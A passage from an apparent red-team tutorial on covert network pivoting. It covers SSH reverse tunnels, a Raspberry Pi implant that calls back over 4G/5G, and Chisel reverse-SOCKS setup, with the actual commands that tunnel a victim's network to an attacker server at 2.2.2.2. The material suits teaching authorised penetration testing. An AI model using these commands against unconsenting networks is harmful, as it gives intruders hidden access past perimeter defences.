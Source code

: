 Alternatively, using the `-R` parameter an SSH connection can be established from the victim host (`1.1.1.1`) to the attacker's SSH server (`2.2.2.2`), exposing the network to which the victim is connected on a SOCKS port on the attacker's SSH server. The commandline for this setup is `ssh 2.2.2.2 -R 1080`. Once connected, the attacker's SSH server will have a SOCKS4a listener on port `1080/TCP`.

## Hardware implant
A bit more complex setup could also be used during a red team with a hardware implant like a Raspberry Pi, which is for example connected to the network outlet in a meeting room. This hardware implant then automatically connects back over a 4G/5G dongle to an online hosted Linux middle server where in the connection the `-R 2222:127.0.0.1:22` parameter to expose the SSH port of the hardware implant on the middle server. This then allows the attacker to connect to the middle server, and through port `2222` on this middle server get access to the hardware implant where again the `-D` parameter of the SSH client is used to launch the SOCKS server on the attacker side. This then provides the attacker access to the network where the hardware implant is connected. The blue lines in the schematic indicate that these connections are going over the 4G/5G dongle of the hardware implant.

![Hardware implant](/assets/img/20230815_living-off-the-foreign-land/HardwareImplant.png "Hardware implant")

## Reverse SOCKS
Often as a red teamer though, access is obtained to a user endpoint which is not directly accessible from the Internet. In such case it is required that the compromised endpoint initiates a connection to an attacker-controlled server, which in turn enables tunneling SOCKS traffic over the compromised endpoint into the target network. Fortunately, such tooling exists, and examples of such tools are Chisel and gost. The diagram for reverse SOCKS looks similar to the one of C2, except that the protocol might differ compared to C2 in the sense that often a TCP connection is used which keeps connected whereas with C2 often a temporary HTTP connection is used which periodically checks whether there are any pending actions.

### Chisel
Chisel[^6] is a great tool written by Jaime Pillora (@jpillora) in Go which consists of a client and server component and allows for reverse SOCKS connections which are tunneled over HTTP. In the Releases of the Chisel repository binaries are available for a variety of operating systems and architectures. Setting Chisel up is very straight forward.

1. On an attacker-controlled server launch Chisel in server mode with the `--reverse` flag where the port (`1234`) should be accessible from the victim system: `chisel server -p 1234 --socks5 --reverse`
2. On the victim system, execute Chisel in client mode where the IP address and port of the server are specified: `chisel client 2.2.2.2:1234 R:socks`
3. Once the victim system is connected to the server, the server will open port `1080/TCP` which allows incoming SOCKS5 connections


[^1]: <https://lofl-project.github.io/>
[^2]: <https://lolbas-project.github.io/>
[^3]: <https://gtfobins.github.io/>
[^4]: <https://github.com/bitsadmin/lofl>
[^5]: <https://github.com/rofl0r/proxychains-ng>
[^6]: <https://github.com/jpillora/chisel>
[^7]: <https://github.com/Meteorite/chisel/tree/feature-socks-udp-associate>
[^8]: <https://github.com/jpillora/chisel/pull/250>
[^9]: <https://github.com/go-gost/gost>
[^10]: <https://github.com/nccgroup/SocksOverRDP>
[^11]: <https://github.com/blackarrowsec/pivotnacci>
[^12]: <https://www.kali.org/tools/all-tools/>
[^13]: <https://www.blackarch.org/tools.html>
[^14]: <https://sourceforge.net/projects/sockscap64/>
[^15]: <https://www.proxycap.com/>
[^16]: <https://www.proxifier.com/>
[^17]: <http://www.dest-unreach.org/socat/>
[^18]: <https://github.com/ambrop72/badvpn>
[^19]: <https://github.com/xjasonlyu/tun2socks>
[^20]: <https://dnsmasq.org/>
[^21]: <https://github.com/xjasonlyu/tun2socks/wiki/Proxy-Models>